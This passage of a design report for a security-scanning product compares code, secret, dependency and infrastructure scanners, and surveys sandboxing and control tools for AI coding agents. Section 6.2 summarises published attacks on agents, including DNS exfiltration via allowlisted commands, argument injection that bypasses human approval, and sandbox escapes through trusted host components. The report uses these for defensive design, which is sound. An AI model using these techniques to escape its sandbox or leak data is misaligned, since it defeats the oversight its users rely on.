| [praetorian-inc/noseyparker](https://api.github.com/repos/praetorian-inc/noseyparker), [tenable/terrascan](https://api.github.com/repos/tenable/terrascan), [trailofbits/afc-buttercup](https://api.github.com/repos/trailofbits/afc-buttercup), [theori-io/aixcc-afc-archive](https://api.github.com/repos/theori-io/aixcc-afc-archive), [42-b3yond-6ug](https://api.github.com/repos/42-b3yond-6ug/42-b3yond-6ug-asc), [borenstein/yolo-cage](https://api.github.com/repos/borenstein/yolo-cage), [tuananh/hyper-mcp](https://api.github.com/repos/tuananh/hyper-mcp) | **Archived.** hyper-mcp is additionally a **fork**; afc-buttercup ships hardcoded test credentials in its README; theori's archive is AGPL, explicitly unsupported and depends on permissioned Docker images. |
| [MCP-Defender/MCP-Defender](https://api.github.com/repos/MCP-Defender/MCP-Defender) | **AGPL-3.0 and strategically frozen** — the README announces acquisition by Docker Inc. and the capability is migrating into Docker's MCP tooling. |
| [genia-dev/vibraniumdome](https://api.github.com/repos/genia-dev/vibraniumdome) | GPL-3.0, dormant ~22 months, and **wrong category** — LLM runtime security repeatedly mislabelled as code security. |
| [abenstirling/VibeSecurity](https://api.github.com/repos/abenstirling/VibeSecurity), [kxcode/vulnhuntr-mod](https://api.github.com/repos/kxcode/vulnhuntr-mod), [siftech/afc-crs-lacrosse](https://api.github.com/repos/siftech/afc-crs-lacrosse), [paulsmith/claude-sandbox](https://api.github.com/repos/paulsmith/claude-sandbox) | Abandoned within days of creation (VibeSecurity, vulnhuntr-mod), infrastructure-locked to Azure with an Azure-vault prerequisite (lacrosse), or stale ~14 months (claude-sandbox). |
| `npm audit`, [SocketDev/socket-cli](https://github.com/SocketDev/socket-cli) | Not license traps but **threat-model violations**: `npm audit` POSTs the dependency tree to the registry with no offline mode ([docs](https://docs.npmjs.com/cli/v11/commands/npm-audit)); Socket CLI's function is gated on a cloud token. Both break "no source/metadata egress by default". |

---

## 5. Security Tool Landscape

### 5.1 Category matrix

The engine needs seven detection categories. This is the decision matrix per category, with the license, output format and offline status that drive the pick. Cells marked `n.a.` mean the fetched page did not state it — deliberately, and frequently, for runtime and offline capability.

| Category | Selected | Rejected (reason) | Native SARIF? | Offline evidence |
|---|---|---|---|---|
| **Polyglot SAST** | [Opengrep](https://github.com/opengrep/opengrep) (LGPL-2.1) + VibeGuard's own rules | Semgrep OSS (engine fine, **rules license fatal**); CodeQL CLI (**license bars the use case**); SonarQube (**SSALv1 analyzers**, F1 27.0%) | Yes, `--sarif-output`, 2.1.0 | Fully offline per repo docs |
| **Language-specific SAST** | [gosec](https://github.com/securego/gosec) (Go), [Bandit](https://github.com/PyCQA/bandit) (Python) — per-language opt-in | Brakeman (**paid license for SaaS**); njsscan (semgrep-pattern-based ⇒ subset of Opengrep); eslint-plugin-security (own README: "finds a lot of false positives"); PHPStan/Psalm (typing, not security) | gosec `-fmt=sarif`; **Bandit: SARIF not stated** in [formatter docs](https://bandit.readthedocs.io/en/latest/formatters/index.html) | n.a. |
| **Secrets** | [Gitleaks](https://github.com/gitleaks/gitleaks) (MIT) | TruffleHog (**AGPL-3.0** + live verification of untrusted-repo secrets); detect-secrets (no release since [2024-05-06](https://api.github.com/repos/Yelp/detect-secrets)); Nosey Parker (**archived**) | Yes, `--report-format sarif` | n.a. |
| **SCA / vuln matching** | [Trivy](https://github.com/aquasecurity/trivy) + [osv-scanner](https://github.com/google/osv-scanner) | Grype (duplicates Trivy matching; **DB v5 schema EOL 2026-03-06** for pre-v0.88.0, [announcements](https://oss.anchore.com/docs/announcements/)); `npm audit` (**egress**); Socket CLI (**cloud token**); bundler-audit / pip-audit / dep-scan (subsets); OWASP Dependency-Check (Java-only opt-in, **NVD API key effectively mandatory**) | Trivy `-f sarif`; osv-scanner `--format sarif` 2.1.0 | osv-scanner: explicit guarantee. Trivy: documented [air-gap path](https://trivy.dev/docs/latest/advanced/air-gap/) |
| **SBOM** | [Syft](https://github.com/anchore/syft) | cdxgen (overlaps; **docs site unreachable this session**); OSV-Scalibr (library under osv-scanner); Trivy-SBOM (kept as secondary) | No — CycloneDX/SPDX/Syft-JSON, needs an adapter | n.a. |
| **IaC / misconfig** | [Checkov](https://github.com/bridgecrewio/checkov) + Trivy misconfig | KICS (near-total overlap with Checkov+Trivy); tfsec (**"tfsec is now part of Trivy"**); Terrascan (**archived**) | Checkov `-o sarif`; KICS `--report-formats sarif` v2.1.0 | Checkov: n.a. |
| **Containers** | [hadolint](https://github.com/hadolint/hadolint) (subprocess, GPL-3.0) + Trivy image scanning | Dockle (mostly ⊂ Trivy; keep only for CIS-DI rule IDs); kube-linter (**output formats unconfirmed**, docs site error); Kubescape (cluster posture, out of scope) | hadolint `-f sarif`; Dockle `-f sarif` 2.1.0 | n.a. |
| **CI/CD + supply-chain posture** | [zizmor](https://github.com/zizmorcore/zizmor) (+[poutine](https://github.com/boostsecurityio/poutine) if GitLab CI matters) + [OpenSSF Scorecard](https://github.com/ossf/scorecard) | actionlint (correctness linter); Allstar (**org-policy bot, 223-day release gap**); harden-runner (runtime control for *your* CI, not a scanner — adopt for VibeGuard's own pipeline) | poutine `--format sarif`; **zizmor JSON only** (`--format=json-v1`); Scorecard SARIF via the Action only | n.a. |
| **DAST / active** | Off by default; [Nuclei](https://github.com/projectdiscovery/nuclei) (MIT, `-sarif-export`) only with a live target | ZAP (**requires running the untrusted app** — different engine, different risk model); sqlmap (**GPLv2+ with a paid embedding license**, wrong risk profile) | Nuclei `-se` | No air-gap statement; template updates fetch |
| **Model/LLM testing** | Out of scope for repo scanning | garak, promptfoo (test **deployed models**, JSONL/unstated output); NeMo Guardrails (**runtime guardrail library, wrong category** — belongs in VibeGuard's own agent runtime) | — | — |

**Net default stack: 8 tools** — Opengrep, Trivy, Syft, osv-scanner, Gitleaks, zizmor, Checkov, Scorecard. Six emit SARIF natively; two need thin adapters (zizmor JSON→SARIF, Syft SBOM as osv-scanner input). Total default license surface: 1× LGPL-2.1 (subprocess), 1× MIT, 6× Apache-2.0/MIT — **no network copyleft, no paid-license requirement, no cloud token**.

### 5.2 Independent accuracy evidence

This is the section that determines VibeGuard's product posture. Every number below is peer-reviewed or thesis-grade, not vendor marketing.

**SAST on real-world Java CVEs** ([Li, Chen, Fan et al., ESEC/FSE '23](https://sen-chen.github.io/img_cs/pdf/fse2023-sast.pdf)) — 7 tools, OWASP Benchmark v1.2 (2,740 tests) plus a 165-CVE real-world set:

| Metric | Value |
|---|---|
| Best F1, OWASP Benchmark (commercial) | Contrast 84.4% |
| Best free-tool F1 | SpotBugs+FindSecBugs 82.8% |
| SonarQube F1 | 27.0% |
| **Best single tool on 165 real-world CVEs** | **12.7%** (Horusec) |
| **All 7 tools combined, CVEs still undetected** | **70.9%** |

Per-tool manually verified CVE detections collapse dramatically from loose file-level matching: CodeQL 24→**11**, Horusec 57→**21**, Semgrep 60→**9**, SonarQube 22→**9**, Insider 29→**4**, Contrast 3→**1**. **Raw finding counts overstate real detection by 3–6×.** This is the single most important number for anyone building a scanning product.

**Replication on 462 CVEs** ([Ansgariusson & Ståhl, Lund University, 2025](https://lup.lub.lu.se/luur/download?func=downloadFile&recordOId=9189955&fileOId=9189961)) — CVEfixes 1.0.8, 244 repos:

| Tool | File-level TP% | File-level precision | Method-level precision |
|---|---|---|---|
| CodeQL | 5.3 | **35.7%** | **66.7%** |
| Semgrep Pro | 2.1 | 16.4% | 54.5% |
| Horusec | 3.4 | 6.9% | 32.4% |
| Bearer | 1.7 | 4.3% | 25.0% |
| SonarQube | 2.3 | 3.8% | 38.5% |

Semgrep's cross-file analysis had to be **disabled because of "unreasonably long scan times"** — a direct warning about interfile SAST in any throughput-sensitive engine, corroborated by CodeQL taking 40 minutes on Juliet while every other plug-and-play tool failed or exceeded a 6-hour budget ([Shen et al.](https://machiry.github.io/files/emsast.pdf)).

**Granularity inflates apparent recall.** Flawfinder warned in ≥1 vulnerable *file* for 89% of vulnerability-contributing commits but in ≥1 vulnerable *function* for only 52% across 92 C/C++ projects ([Charoenwet et al.](https://arxiv.org/html/2407.12241v1)). Report at method granularity or admit the coarseness.

**Secret scanners differ by an order of magnitude** ([Basak, Cox, Reaves, Williams, arXiv:2307.00714](https://bradreaves.net/publication/bcrw23/bcrw23.pdf)) — SecretBench: 818 repos, 97,479 labelled candidates, 15,084 true secrets:

| Tool | Precision | Recall | F1 |
|---|---|---|---|
| **Gitleaks** | **0.46** | **0.88** | **0.60** |
| GitHub Secret Scanner | 0.75 | 0.36 | 0.48 |
| ggshield | 0.19 | 0.46 | 0.26 |
| **TruffleHog** | 0.06 | 0.52 | 0.11 |
| git-secrets | 0.05 | 0.21 | 0.08 |
| Whispers / SpectralOps | 0.01 | 0.38 / 0.67 | 0.02 |

Five of nine tools have precision below 7%, and the paper's overlap heatmap quantifies the redundancy directly (ggshield→TruffleHog 0.76). Stacking regex secret scanners buys duplicate noise, not coverage.

**SCA is trivially evadable — which matters most for untrusted repos** ([Ivanova, Stakhanova, Sistany, ISC '24](https://cyberlab.usask.ca/papers/SCA_Tools_analysis__ISC24.pdf)): across 11 dependency-obfuscation scenarios, **Grype, OSV-Scanner, Dependabot and Snyk each failed 11/11**; OWASP Dependency-Check failed 6/11. Separately, nine SCA tools on identical input (OpenMRS) reported between **17 and 332** vulnerable Maven dependencies — a ~20× spread ([Imtiaz et al.](https://arxiv.org/abs/2108.12078)).

**Five implications, applied directly to VibeGuard's design:**

1. **Never gate CI on SAST.** With 12.7% best-case real-world recall and a 70.9% combined miss rate, a pass/fail gate is neither a security control nor defensible to a user. Reserve hard failures for high-precision classes only: verified secrets and KEV-listed CVEs with a reachable purl (feeds D5).
2. **Report at method/function granularity** wherever the tool supports it, and label file-level findings as such.
3. **One good secret scanner, not three** — Gitleaks alone, with TruffleHog optional and isolated.
4. **Treat dependency metadata as adversarial** and corroborate manifests with binary/file-level SBOM (Syft), never manifests alone.
5. **Budget explicitly for interfile analysis**, with the timeout governor from D3(e), because two independent studies abandoned cross-file modes over runtime.

A final caution on benchmark hygiene: the OWASP Benchmark project itself states its published free-tool scorecards are "from several years ago" ([project page](https://owasp.org/www-project-benchmark/)). Do not use them to rank current tool versions.

### 5.3 License traps

| Tool | Trap | Verdict for VibeGuard |
|---|---|---|
| **CodeQL CLI** | GitHub CodeQL Terms & Conditions: per-user, permitted only for open-source codebases, academic research, CI/CD on OSS **hosted on GitHub.com**, or testing OSI-licensed queries; "may not be used for any purpose not expressly set forth above". Paid GitHub Code Security lifts the CI/CD and non-OSS restrictions ([LICENSE.md](https://github.com/github/codeql-cli-binaries/blob/main/LICENSE.md), [docs](https://docs.github.com/en/code-security/concepts/code-scanning/codeql/codeql-cli)) | **DROP.** VibeGuard scans private, non-OSS repositories. The IRIS *pattern* is adopted; the CodeQL *dependency* is not. |
| **semgrep-rules** | Semgrep Rules License v1.0: "You may use the rules only for your own internal business purposes"; "does not allow you to distribute the rules or to make them available to others as a service"; docs add "Vendors cannot use Semgrep-maintained rules in competing products or SaaS offerings" ([rules license](https://semgrep.dev/legal/rules-license), [licensing docs](https://docs.semgrep.dev/licensing)) | **DROP.** VibeGuard authors its own rule corpus. This is the direct cause of the Opengrep fork. |
| **Semgrep engine** | LGPL-2.1 — usable, but obligations attach if you link rather than subprocess; CE's own README warns it "can only analyze code within the boundaries of a single function or file" and "will miss many true positives" | Superseded by Opengrep; same LGPL discipline applies (subprocess only). |
| **Brakeman** | Brakeman Public Use License (Synopsys ©): commercial SaaS, commercial distribution, and use "as a component of a value-added service/product" all "require a commercial, non-free license"; only analyzing your own software is exempt ([LICENSE.md](https://github.com/presidentbeef/brakeman/blob/main/LICENSE.md)) | **DROP.** Rails taint depth is a real loss; accept it or buy a license. |
| **SonarQube** | "Starting 29 November 2024 … the bundled analyzers will be subject to a new Sonar Source-Available License Version 1.0 (SSALv1)" — the repo's LGPL-3.0 tag does not cover the analyzers that do the work ([license](https://www.sonarsource.com/license/)) | **DROP** on license and measurement grounds. |
| **bearer** | Elastic License 2.0 — not OSI; forbids providing the software to third parties as a managed service ([LICENSE.txt](https://github.com/Bearer/bearer/blob/main/LICENSE.txt)) | **DROP.** Its sensitive-data-flow rules are the loss. |
| **TruffleHog** | AGPL-3.0 — network-service copyleft ([api](https://api.github.com/repos/trufflesecurity/trufflehog)) | **Not in the default path.** Optional, out-of-process, verification-only. |
| **hadolint / bundler-audit / njsscan / nova-proximity / ai-jail / open-edison** | GPL-3.0 / LGPL-3.0 | **Subprocess only, never linked.** |
| **sqlmap** | GPLv2+ **plus** "If you wish to embed sqlmap technology into proprietary software, we sell alternative licenses" ([LICENSE](https://raw.githubusercontent.com/sqlmapproject/sqlmap/master/LICENSE)) | **DROP.** |
| **Nuclei** | **No trap** — MIT, Copyright 2025 ProjectDiscovery, no commercial restriction found ([LICENSE.md](https://github.com/projectdiscovery/nuclei/blob/dev/LICENSE.md), [FAQ](https://docs.projectdiscovery.io/opensource/nuclei/faq)) | Optional, active-scanning only. |
| **npm CLI / npm audit** | Artistic-2.0 code, but `npm audit` transmits the dependency tree to the registry ([docs](https://docs.npmjs.com/cli/v11/commands/npm-audit)) | **DROP** — threat-model violation, not a license one. |
| **Socket CLI** | MIT code gated on `SOCKET_CLI_API_TOKEN` ([repo](https://github.com/SocketDev/socket-cli)) | **DROP** — cloud round-trip per scan. |

**Operational (non-legal) traps to encode in CI:** Grype DB v5 schema EOL (pin ≥ v0.88.0); Trivy DBs are OCI artifacts on ghcr.io + Docker Hub mirrors with 429 fallback — mirror them yourself; OWASP Dependency-Check needs an NVD API key or updates are "extremely slow" and 403-prone; and four archived/superseded tools still circulate in current round-ups (Terrascan, Nosey Parker, `jeremylong/DependencyCheck`, tfsec).

### 5.4 Overlap map

```
                     SAST      SECRETS   SCA/SBOM   IaC      CONTAINER   CI/CD    POSTURE
Opengrep             ████                            ▓          ▓
Semgrep OSS          ████ (= Opengrep, same syntax)  ▓          ▓
CodeQL               ████  [license-excluded]
gosec                ██ (Go only, ⊂ Opengrep rules)
Bandit               ██ (Py only, ⊂ Opengrep rules)
Brakeman             ██ (Rails taint — unique depth) [license-excluded]
njsscan              ██ (semgrep-based ⇒ ⊂ Opengrep)
eslint-plugin-sec    █  (JS, high FP by own README)
Gitleaks                       ████
TruffleHog                     ███ (verification unique) [AGPL]
detect-secrets                 ██  (⊂ Gitleaks)
Nosey Parker                   ██  (archived)
Trivy                    ▓     ███       ████      ████     ████        ▓
Grype                                    ███ (⊂ Trivy vuln matching)
Syft                                     ████ (SBOM gen — unique breadth)
cdxgen                                   ███ (⊂ Syft, manifest-first)
osv-scanner                              ████ (offline + OSV DB)
dep-check                                ███ (Java, evasion-resistant 6/11)
pip-audit / npm audit / bundler / cargo  ██  (⊂ osv-scanner)
Checkov                                            ████
KICS                                               ████ (≈ Checkov)
tfsec / Terrascan                                  ██   (→ Trivy / archived)
hadolint                                                  ███ (Dockerfile AST — unique)
Dockle                                                    ███ (CIS-DI — mostly ⊂ Trivy)
Kubescape / kube-linter                                   ███ (cluster posture)
zizmor                                                              ████
poutine                                                             ████ (+GitLab CI, SARIF)
actionlint                                                          ██ (correctness, ⊂ zizmor)
harden-runner                                                       ▓ runtime agent
Allstar                                                                      ▓ org policy bot
Scorecard                                                                    ████
ZAP / Nuclei / sqlmap  — DAST/active; disjoint from all of the above
garak / promptfoo      — model testing; disjoint
NeMo Guardrails        — runtime guardrails; not a scanner
```

**Highest-redundancy clusters, with the drop decision:**

1. **Vulnerability matching:** Trivy ∩ Grype ∩ osv-scanner ∩ dep-scan ∩ pip-audit ∩ npm audit ∩ bundler-audit ∩ cargo-audit → keep **Trivy + osv-scanner**.
2. **IaC:** Checkov ∩ KICS ∩ tfsec ∩ Terrascan ∩ Trivy-misconfig → keep **Checkov + Trivy**.
3. **Secrets:** Gitleaks ∩ TruffleHog ∩ detect-secrets ∩ Nosey Parker ∩ Trivy-secret → keep **Gitleaks**.
4. **JS/Python/Go SAST:** Opengrep rules ⊃ njsscan and largely ⊃ eslint-plugin-security; gosec and Bandit retain ecosystem-idiomatic value.
5. **Actions auditing:** zizmor ∩ poutine ∩ actionlint ∩ Allstar → keep **zizmor** (+poutine for GitLab).
6. **SBOM:** Syft ∩ cdxgen ∩ OSV-Scalibr ∩ Trivy-SBOM → keep **Syft**.

Overlap is not wasted, though: because multi-tool agreement is the cheapest available confidence signal, VibeGuard keeps a *deliberate* redundancy of exactly two independent matchers (Trivy + osv-scanner) and feeds agreement into the Confidence factor of D5 — while the SecretBench overlap data justifies refusing the same trick for secrets.

### 5.5 Normalization and dedup consequences

Because the eight tools disagree on identifiers, severities and localisation, the S4 correlation stage is not optional plumbing — it is where accuracy is won or lost.

- **Pin SARIF 2.1.0.** It is the only version any tool here explicitly names, and the only version GitHub accepts ([SARIF support](https://docs.github.com/en/code-security/code-scanning/integrating-with-code-scanning/sarif-support-for-code-scanning)).
- **Carry taxonomy IDs, not tool severities.** The same weakness is INFO in one tool and FATAL in another — compare Dockle's FATAL CIS-DI rules to hadolint's Info-level DL3001. Map every rule to CWE via `taxa`/`relationships`.
- **Normalize `artifactLocation.uri`** to repo-root-relative POSIX paths with `originalUriBaseIds`, or container and IaC findings will never join with SAST findings.
- **Fingerprint hierarchy:** tool-provided `partialFingerprints` → computed `ruleId + normalizedPath + CWE + snippet-hash` → `ruleId + normalizedPath + startLine` as a last resort. Never dedup on line number alone, given the 89%-vs-52% file/function gap.
- **SCA needs a different join key:** `(purl, vulnerability-alias-set)` with CVE↔GHSA↔OSV alias resolution, or Trivy and osv-scanner double-report the same flaw.
- **Secrets dedup on the normalized secret hash**, never the location; report first-seen commit plus all locations, and never store the value.
- **Suppress at the taxonomy layer** (CWE + path glob + fingerprint), not on tool rule IDs, because rule renames at a 4–7-day release cadence would silently unsuppress findings. This is the mechanical reason D9 requires signed `.vg/suppressions.yml` entries with expiry.
- **Cluster, don't discard.** Merge duplicates into one finding with an `evidence[]` list naming every tool that reported it; retain the losing tool's record for audit.

---

## 6. AI Coding Agent Security

### 6.1 The category matrix

Five sub-categories of control exist. None of them is a boundary on its own, and the maintained leaders are explicit about that.

| Sub-category | Leaders (score) | Mechanism | What it stops | What it does not stop |
|---|---|---|---|---|
| **OS-primitive sandboxing** | [srt](https://github.com/anthropic-experimental/sandbox-runtime) (10), [ai-jail](https://github.com/akitaonrails/ai-jail) (6), [SandboxedClaudeCode](https://github.com/CaptainMcCrank/SandboxedClaudeCode) (4), [neko-kai/claude-code-sandbox](https://github.com/neko-kai/claude-code-sandbox) (4) | `sandbox-exec` (macOS Seatbelt) / `bubblewrap` + Landlock + seccomp (Linux), plus a proxy for network allowlisting | Filesystem reads/writes outside policy, unallowlisted egress, blast radius of `Bash` | Prompt injection itself; escapes via trusted unsandboxed host components; domain fronting through a TLS-blind proxy |
| **microVM / VM isolation** | [matchlock](https://github.com/jingkaihe/matchlock) (8), [gondolin](https://github.com/earendil-works/gondolin) (7), [microsandbox](https://github.com/superradcompany/microsandbox) (7), [vibe](https://github.com/lynaghk/vibe) (5), [yolo-cage](https://github.com/borenstein/yolo-cage) (3, archived) | Hardware-virtualised guest per task/branch | Kernel-level escape from the guest, filesystem persistence | Host-side policy mistakes; needs KVM/Apple Silicon (matchlock) so generic CI runners are excluded |
| **Container / worktree isolation** | [container-use](https://github.com/dagger/container-use) (7), [leash](https://github.com/strongdm/leash) (9), [packnplay](https://github.com/obra/packnplay) (4), [agent-sandbox](https://github.com/kubernetes-sigs/agent-sandbox) (7) | Container + git branch/worktree per agent; Cedar policy enforcement in Leash | Cross-agent interference, unreviewed writes to the working tree, unlogged actions | Container-grade isolation only; packnplay's own README states it "doesn't provide any level of introspection or access control" |
| **WASM / restricted interpreters** | [wassette](https://github.com/microsoft/wassette) (7), [capsule](https://github.com/capsulerun/capsule) (5), [monty](https://github.com/pydantic/monty) (6), [agentvm](https://github.com/deepclause/agentvm) (4) | Wasmtime capability sandbox; minimal Python interpreter in Rust | Arbitrary syscalls from tool code; safe evaluation of untrusted snippets found in a scanned repo | Requires compiling to Wasm; wassette says "Early Development… not production ready" |
| **Permission / hook / policy frameworks** | [dcg](https://github.com/Dicklesworthstone/destructive_command_guard) (7), [claude-code-safety-hooks](https://github.com/alexknowshtml/claude-code-safety-hooks) (4), [slopguard](https://github.com/WT-MM/slopguard) (4), Claude Code's own `PreToolUse` hooks | Pre-execution interception with a deny decision | Named destructive commands; policy violations at the exact moment of the tool call | Obfuscated commands (blocklists are bypassable); `if` filters **fail open**; async hooks cannot enforce |
| **Egress proxies / agent firewalls** | [pipelock](https://github.com/luckyPipewrench/pipelock) (8), [open-edison](https://github.com/Edison-Watch/open-edison) (5), [gh-aw firewall](https://github.github.io/gh-aw-firewall/), Copilot's agent firewall | Mediated HTTP/MCP/A2A/WS with allowlists, exfil/SSRF detection, signed receipts | Bulk exfiltration to non-allowlisted destinations; provides tamper-evident audit | DNS-channel exfiltration through allowlisted utilities; broad allowlists like `github.com`; Copilot's firewall covers **only the agent's Bash tool**, not MCP servers or setup steps |
| **Credential brokers** | [agent-vault](https://github.com/Infisical/agent-vault) (8), matchlock, gondolin | Agent sees a placeholder; the host injects the real credential only for allowlisted destinations | **Credential exfiltration even under a successful prompt injection** — the only reviewed control with that property | Everything that does not require a credential; the proxy itself becomes a high-value target |
| **Agent-config linters** | [ctxlint](https://github.com/YawLabs/ctxlint) (8), [claude-code-doctor](https://github.com/Mishit18/claude-code-doctor) (3) | Static analysis of `CLAUDE.md`/`AGENTS.md`/`.cursorrules`/`.mcp.json` | Credential leakage in agent config, config drift, obvious injected instructions | Adversarial obfuscation; ctxlint's focus is correctness-vs-codebase; claude-code-doctor is abandoned at birth |

### 6.2 What the measured evidence says about this layer

Anthropic reports sandboxing cut permission prompts by 84% internally, with filesystem and network isolation as the two boundaries ([Anthropic engineering](https://www.anthropic.com/engineering/claude-code-sandboxing)). That is a real usability win. But the boundary itself is documented as porous by the vendor's own docs and by independent research:

- Claude Code's docs state sandboxing "is not a complete isolation boundary", that broad domains like `github.com` enable exfiltration, that the default hostname-only TLS-blind proxy may permit **domain fronting**, that `allowUnixSockets` (especially `/var/run/docker.sock`) enables sandbox bypass and effective host access, that environment variables including parent-process credentials are **inherited by default**, and that the built-in `Read`, `Edit` and `Write` tools **do not run through the sandbox** at all ([sandboxing](https://docs.claude.com/en/docs/claude-code/sandboxing)).
- The default read policy **still permits `~/.aws/credentials` and `~/.ssh/`** ([sandboxing](https://docs.claude.com/en/docs/claude-code/sandboxing)) — which is exactly why `neko-kai/claude-code-sandbox` argues that most public `sandbox-exec` profiles only prevent writes and therefore leave prompt-injection data-leak paths open ([README](https://api.github.com/repos/neko-kai/claude-code-sandbox/readme)).
- Allowlists are themselves exfiltration channels: `CVE-2025-55284` used allowlisted `ping`/`nslookup`/`host`/`dig` to send file contents over DNS with no confirmation, and Claude refused known pentest domains while allowing an arbitrary attacker domain ([Embrace The Red](https://embracethered.com/blog/posts/2025/claude-code-exfiltration-via-dns-requests/)).
- Pre-approved commands can be weaponised via **argument injection**, yielding RCE in three production agents and bypassing human approval entirely ([Trail of Bits](https://blog.trailofbits.com/2025/10/22/prompt-injection-to-rce-in-ai-agents/)).
- Sandboxes fail structurally when the agent writes a file later executed by a **trusted, unsandboxed host component** — Python interpreter discovery, git integrations/fsmonitor, `.vscode` task runners, hook engines, the Docker socket. Pillar catalogued eight such escapes across Cursor, Codex, Gemini CLI and Antigravity and named **denylist-based sandboxes** as one of four recurring failure modes ([Pillar](https://www.pillar.security/blog/the-week-of-sandbox-escapes)).
- Human-in-the-loop, the fallback everyone relies on, is measurably weak: in a 1,053-tester study where one permission prompt was swapped for a clearly dangerous command, **only 13.6% of humans refused it** ([Willison](https://simonwillison.net/2026/Aug/8/auto-mode/)).
- Accept Edits mode auto-approves `mkdir`, `touch`, `rm`, `mv`, `cp`, `sed` ([Anthropic security docs](https://docs.claude.com/en/docs/claude-code/security)) — and `sed` argument parsing was itself the subject of `CVE-2025-64755` ([NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-64755)).

**The one bright spot** is credential brokering. matchlock, gondolin and agent-vault converge independently on the same design — placeholder in the guest, real token injected host-side only for allowlisted hosts ([matchlock](https://api.github.com/repos/jingkaihe/matchlock/readme), [gondolin](https://api.github.com/repos/earendil-works/gondolin/readme), [agent-vault](https://api.github.com/repos/Infisical/agent-vault/readme)). This defeats credential exfiltration even when the injection succeeds, which pure sandboxes do not. VibeGuard adopts it as a first-class requirement (D8).

### 6.3 Where the enforcement point actually is

Across all agent harnesses, only one surface can *stop* a tool call before it executes.

- **Claude Code hooks** can return `hookSpecificOutput.permissionDecision` of `allow`/`deny`/`ask`/`defer` on `PreToolUse`, or block via exit code `2`, across roughly 30 documented events ([hooks](https://docs.claude.com/en/docs/claude-code/hooks)). Precedence is deny > defer > ask > allow, and `defer` works only in `-p`.
- **Cursor deliberately implements the same contract**: exit code 2 blocks the action, "equivalent to returning `permission: "deny"`", and the docs state this matches Claude Code behavior for compatibility; Cursor also loads hooks from third-party tools such as Claude Code ([Cursor hooks](https://cursor.com/docs/agent/hooks)).
- **Codex** has a stable `hooks` feature flag loading from `hooks.json`, but the event names and blocking semantics are **Unverified** from the fetched documentation ([Codex config](https://developers.openai.com/codex/local-config)).

This is why D1 places enforcement in hooks and not in a skill: **one stdio binary with an exit-code-2 deny contract works unchanged on two of the three major harnesses.** It is also why D1 forbids shipping an exec-capable skill — skills can execute shell via `` !`cmd` `` and ```` ```! ```` blocks *before* content reaches the model, and `allowed-tools` grants tools without prompting "even in `-p` mode in untrusted folders", which the docs flag as an explicit security warning ([skills](https://docs.claude.com/en/docs/claude-code/skills)). A security product must not be the thing that widens the blast radius.

Two further constraints shape VibeGuard's plugin design, both from Anthropic's own docs: **plugin-shipped subagents cannot set `hooks`, `mcpServers` or `permissionMode`** — those fields are ignored for security reasons, so hooks must be installed into `.claude/settings.json` rather than smuggled through a plugin subagent — and **subagents share the parent process and sandbox configuration**, so a subagent is a context boundary, not a security boundary ([sub-agents](https://docs.claude.com/en/docs/claude-code/sub-agents), [sandboxing](https://docs.claude.com/en/docs/claude-code/sandboxing)).

### 6.4 What is missing in this category

1. **No repo-content injection triage.** Every tool here protects the agent from *its own actions*. Nothing inspects the repository as an adversarial *input* corpus. `ctxlint` is the closest and its own framing is correctness-vs-codebase; `claude-code-doctor` claimed it and died at one commit. **This is VibeGuard's S1 stage.**
2. **No enforcement primitive is content-aware.** dcg is a command blocklist; hooks are policy hooks with no injection model; egress proxies inspect destinations, not the semantics of what triggered the request. Nothing joins "this tool call was caused by attacker-controlled text in `README.md:42`" to a deny decision.
3. **Egress control is TLS-blind by default.** Claude Code's built-in proxy "by default does **not** terminate or inspect TLS", and the experimental `network.tlsTerminate` adds termination but "adds no content filtering" ([sandboxing](https://docs.claude.com/en/docs/claude-code/sandboxing)). A TLS-terminating allowlist proxy with content inspection is a component VibeGuard must supply itself (D8), not inherit.
4. **No audit standard.** pipelock's mediator-signed action receipts are the only tamper-evident audit artefact found in the category ([README](https://api.github.com/repos/luckyPipewrench/pipelock/readme)), and yolo-cage's governance stance ("agents can't merge their own PRs") is archived. VibeGuard's hash-chained append-only log with model-I/O hashes (D8) is unmatched in the reviewed set.
5. **Nothing survives the trust-verification hole in CI.** Trust verification is **disabled** under `-p`/SDK, and `-p` sessions treat the folder as trusted, skipping the trust dialog ([security](https://docs.claude.com/en/docs/claude-code/security), [hooks](https://docs.claude.com/en/docs/claude-code/hooks)). Project-scoped `.mcp.json` approval is simply unavailable in CI because nothing can prompt ([MCP](https://docs.claude.com/en/docs/claude-code/mcp)). Any CI-facing security product must assume the harness's trust gate is absent and re-implement it.
6. **The category is uniformly pre-1.0.** srt is a "Beta Research Preview"; matchlock is "experimental, breaking changes"; gondolin is "Experimental"; container-use's badge says "experimental"; wassette says "not production ready"; localsandbox says "not security audited". Any VibeGuard dependency here must be version-pinned and replaceable.

---

## 7. MCP Security

### 7.1 The scanner layer

Four maintained scanners, one strong wrapper, and a long tail of dead projects.

| Tool | Engine(s) | Scope | License | Status |
|---|---|---|---|---|
| [snyk/agent-scan](https://github.com/snyk/agent-scan) | Local checks + Invariant guardrail models; historic `proxy` mode monitoring live MCP traffic | Agents, MCP servers, **skills**; auto-discovers Claude/Cursor/Windsurf configs | Apache-2.0 | Very active; **output experimental, v0.5.x planned for deprecation**; renamed from `invariantlabs-ai/mcp-scan` |
| [cisco-ai-defense/mcp-scanner](https://github.com/cisco-ai-defense/mcp-scanner) | YARA rules, LLM-as-judge, Cisco AI Defense inspect API — usable together or independently | MCP servers + client configs | Apache-2.0 | Very active, 4.8.3; **best drop-in SDK shape**, CLI + REST + Docker + local LLM |
| [highflame-ai/ramparts](https://github.com/highflame-ai/ramparts) | YARA + LLM + OWASP MCP Top 10 tagging | MCP servers **and** agent skill files (Claude Code commands, agentskills.io bundles, Cursor/Codex/Windsurf/Gemini equivalents) | Apache-2.0 | 96★; ownership moved; last commit **Unverified** |
| [Nova-Hunting/nova-proximity](https://github.com/Nova-Hunting/nova-proximity) | NOVA rules over enumerated tools/prompts/resources | MCP servers + Agent Skills | **GPL-3.0** | 5-month gap; subprocess-only for VibeGuard |
| [kapilduraphe/mcp-watch](https://github.com/kapilduraphe/mcp-watch) | Static named detectors | MCP servers | MIT | 4-month gap; **the most liftable detector taxonomy** |
| [riseandignite/mcp-shield](https://github.com/riseandignite/mcp-shield) | Regex + optional Claude-assisted analysis; `--identify-as` tests client-dependent bait-and-switch behaviour | Installed MCP configs | MIT | **Dead ~16 months** |
| [82ch/MCP-Dandan](https://github.com/82ch/MCP-Dandan) | Real-time proxy + behaviour analysis | Live MCP traffic | MIT | Desktop-UI-centric, small community |

